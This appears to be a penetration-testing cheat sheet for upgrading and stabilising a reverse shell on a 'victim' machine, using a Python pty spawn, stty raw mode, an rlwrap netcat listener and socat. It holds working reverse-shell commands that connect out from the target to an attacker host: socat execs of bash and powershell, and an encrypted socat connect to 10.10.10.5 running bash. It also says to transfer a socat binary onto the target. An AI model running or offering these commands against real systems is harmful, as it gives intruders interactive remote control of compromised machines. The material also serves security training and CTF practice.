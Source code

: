      
  
**PYTHON METHOD**  
1) python3 -c 'import pty; pty.spawn("/bin/bash")'  
2) export TERM=xterm  
3) CTRL + Z to background the shell  
4) stty raw -echo; fg  
  
Type ‘reset’ when finished or if shell dies  
  
  
  
  
**If there are wrapping rows/colums issue**  
  
1) stty -a (on own machine)  
2) stty rows <rows> columsn <columns> (on victim shell)  
  
  
  
**RLWRAP METHOD** (useful for Windows shells)  
  
1) rlwrap nc -lvnp <port>  
\*OPTIONAL FOR LINUX\*  
2) CTRL+Z  
3) stty raw -echo; fg  
  
  
  
  
**SOCAT METHOD** (Linux only)  
1) transfer socat static compiled banary to target ([https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true))  
2) socat listener: _``socat TCP-L:<port> FILE:`tty`,raw,echo=0``_3) connect back  
Windows: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`  
Linux: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`  
  
  
SHELL=/bin/bash script -q /dev/null  
/bin/sh -i  
  
  
  
  
socat OPENSSL-LISTEN:<port>,cert=encrypt.pem,verify=0 ``FILE:`tty`,raw,echo=0``  
  
`socat OPENSSL:10.10.10.5:<port>,verify=0` EXEC:"bash -li",pty,stderr,sigint,setsid,sane